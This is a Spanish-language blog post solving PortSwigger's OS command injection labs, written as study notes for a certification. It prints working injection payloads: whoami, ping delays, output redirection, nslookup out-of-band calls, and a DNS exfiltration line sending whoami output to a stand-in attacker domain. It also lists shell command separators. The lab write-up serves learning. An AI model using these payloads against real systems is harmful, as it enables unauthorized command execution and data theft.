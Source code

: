 ```yaml
---
title: Inyeccion de comandos
date: '2024-05-09'
lastmod: '2023-08-05'
tags: ['Portswigger', 'Injection', 'Labs']
draft: false
summary: 'La inyección de comandos permite a un atacante ejecutar comandos del sistema operativo (OS) en el servidor que está ejecutando una aplicación, lo que generalmente compromete por completo la aplicación y sus datos.'
images: ['/static/images/htb/ewpt']
---
```


<p align="center">
  ![Portada](https://miro.medium.com/v2/resize:fit:640/format:webp/1*HapzmTCjNvXIff_AsOCIuw.png)
</p>

Mientras me preparo para la certificación eWPTX, voy a trabajar en los laboratorios de PortSwigger. En esta publicación, voy a "robar"... tomar notas sobre la inyección de comandos en el sistema operativo (OS) y resolver los laboratorios. ¡Vamos a empezar!

<TOCInline toc={props.toc} exclude="Introduccion" />

## ¿Qué es la inyección de comandos OS?

La inyección de comandos OS permite a un atacante ejecutar comandos del sistema operativo en el servidor que ejecuta una aplicación, lo que generalmente compromete completamente la aplicación y sus datos.

### Laboratorio 1 - Inyección de comandos OS, caso simple

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS en el verificador de stock de productos. La aplicación ejecuta un comando de shell que contiene los IDs de producto y tienda suministrados por el usuario, y devuelve la salida en bruto del comando en su respuesta. Para resolver el laboratorio, ejecuta el comando `whoami` para determinar el nombre del usuario actual.

Vamos a la página y hacemos clic en el botón "View Details".
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

Cuando hacemos clic en "Check Stock", se envía una solicitud con los parámetros `productId=1&storeId=2` a `/product/stock`.
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

Cambiamos `storeId=2` por ...

```bash
productId=1&storeId=| whoami
```

y nos muestra el nombre.
![Imagen 4](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Vulnerabilidades de inyección de comandos OS ciegas

### Detección de inyección de comandos OS ciegas usando retrasos de tiempo

Puedes usar un comando inyectado para activar un retraso de tiempo, permitiéndote confirmar que el comando se ejecutó según el tiempo que tarda la aplicación en responder. El comando `ping` es una buena forma de hacer esto, ya que te permite especificar el número de paquetes ICMP a enviar.

```
& ping -c 10 127.0.0.1 &
```

### Laboratorio 2 - Inyección de comandos OS ciegas con retrasos de tiempo

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. La salida del comando no se devuelve en la respuesta. Para resolver el laboratorio, explota la vulnerabilidad de inyección de comandos OS ciegas para causar un retraso de 10 segundos.

Vamos a la página de "Submit feedback".
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

En el formulario ponemos cualquier dato, lo enviamos y lo capturamos con Burpsuite.
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

Después de probar en todos los parámetros con la carga útil...

```
| ping -c 10 127.0.0.1 &
```

Codificado en URL...

```
|+ping+-c+10+127.0.0.1+%26
```

¡Vemos un retraso de 9,440 milisegundos! 🥳
![Imagen 4](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

### Explotando la inyección de comandos OS ciegas redirigiendo la salida

Puedes redirigir la salida del comando inyectado a un archivo. El carácter `>` envía la salida del comando `whoami` al archivo especificado. Por ejemplo:

```
& whoami > /var/www/static/whoami.txt &
```

### Laboratorio 3 - Inyección de comandos OS ciegas con redirección de salida

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puedes usar la redirección de salida para capturar la salida del comando. Hay una carpeta escribible en: `/var/www/images/`. La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puedes redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de imágenes para recuperar el contenido del archivo. Para resolver el laboratorio, ejecuta el comando `whoami` y recupera la salida.

Mismo procedimiento que en el laboratorio anterior: vamos a la página de "Submit Feedback", llenamos el formulario, lo enviamos y capturamos la solicitud.
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

Buscamos el parámetro donde inyectar el comando:

```
| whoami > /var/images/www/quiensoy.txt &
```

![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

### Explotando la inyección de comandos OS ciegas usando técnicas OAST

Puedes usar un comando inyectado que desencadenará una interacción de red fuera de banda con un sistema que controles, utilizando técnicas OAST.

```
& nslookup kgji2ohoyw.web-attacker.com &
```

### Laboratorio 4 - Inyección de comandos OS ciegas con interacción fuera de banda

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. El comando se ejecuta de manera asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que puedas acceder. Sin embargo, puedes desencadenar interacciones fuera de banda con un dominio externo. Para resolver el laboratorio, explota la vulnerabilidad de inyección de comandos OS ciegas para realizar una consulta DNS a Burp Collaborator.

Mismo procedimiento 😮‍💨... Copia la URL de Burp Collaborator (¡Cómpralo! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```

¡Y voilà!
![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

### Siguiente paso

El canal fuera de banda proporciona una forma sencilla de exfiltrar la salida de los comandos inyectados.

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

Esto provoca una consulta DNS al dominio del atacante que contiene el resultado del comando `whoami`:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

### Laboratorio 5 - Inyección de comandos OS ciegas con exfiltración de datos fuera de banda

> Este laboratorio contiene una vulnerabilidad de inyección de comandos OS ciegas en la función de retroalimentación. La aplicación ejecuta un comando de shell que contiene los detalles suministrados por el usuario. El comando se ejecuta de manera asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que puedas acceder. Sin embargo, puedes desencadenar interacciones fuera de banda con un dominio externo. Para resolver el laboratorio, ejecuta el comando `whoami` y exfiltra la salida a través de una consulta DNS a Burp Collaborator. Deberás ingresar el nombre del usuario actual para completar el laboratorio.

🏃‍♀️ Ve a la página de "Submit Feedback", 🏃‍♀️ llena el formulario, 🏃‍♀️ envíalo, 🏃‍♀️ captura la solicitud, copia el enlace de Burp Collaborator (¡CÓMPRALO! 😉⬇️)

```
| nslookup 'whoami'.blablablablabla.whatever.com &
```

![Imagen 1](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![Imagen 2](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![Imagen 3](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Formas de inyectar comandos OS

Los siguientes separadores de comandos funcionan tanto en sistemas Windows como Unix:

```
&
&&
|
||
```

Unix

```
;
0x0a
\n
```

## Recursos

[Portswigger](https://portswigger.net/web-security/os-command-injection)

[HackTheBox](https://academy.hackthebox.com/module/details/109)

[INE](https://ine.com/blog/command-injection)
